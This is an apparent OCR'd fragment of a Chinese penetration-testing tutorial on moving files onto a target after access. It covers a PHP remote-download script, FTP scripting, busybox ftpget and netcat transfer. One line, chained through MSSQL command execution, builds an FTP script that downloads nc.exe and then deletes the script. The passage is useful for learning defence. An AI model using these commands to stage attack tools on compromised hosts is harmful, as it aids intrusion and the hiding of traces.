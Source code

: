 ```
但是有时候会因为没找到而导致数据重复,对数据分析有点影响
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjA8esnNBnyG8ozQBq0wDb2ziclPfNImaGcQVBibPCRPyJnJGpdeQqLtSg/640?wx_fmt=png)

**其他传输方式** 

1、php 脚本文件下载  

```
<?php
        $data = @file("http://example.com/file");
        $lf = "local\_file";
        $fh = fopen($lf, 'w');
        fwrite($fh, $data\[0\]);
        fclose($fh);
?>
```

2、ftp 文件下载

```
\>\*\*windows下\*\*
>ftp下载是需要交互，但是也可以这样去执行下载
open host
username
password
bin
lcd c:/
get file
bye
>将这个内容保存为1.txt， ftp -s:"c:\\1.txt"
>在mssql命令执行里面(不知道为什么单行执行一个echo,总是显示两行),个人一般喜欢这样
echo open host >> c:\\hh.txt & echo username >> c:\\hh.txt & echo password >>c:\\hh.txt & echo bin >>c:\\hh.txt & echo lcd c:\\>>c:\\hh.txt & echo get nc.exe  >>c:\\hh.txt & echo bye >>c:\\hh.txt & ftp -s:"c:\\hh.txt" & del c:\\hh.txt
>\*\*linux下\*\*
>bash文件
ftp 127.0.0.1
username
password
get file
exit
>或者使用busybox里面的tftp或者ftp
>busybox ftpget -u test -P test 127.0.0.1 file.zip
```

3、nc 文件传输

```
服务端:cat file | nc -l 1234
下载端:nc host\_ip 1234 > file
```

4、使用 SMB 传送文件 本地 linux 的 smb 环境配置

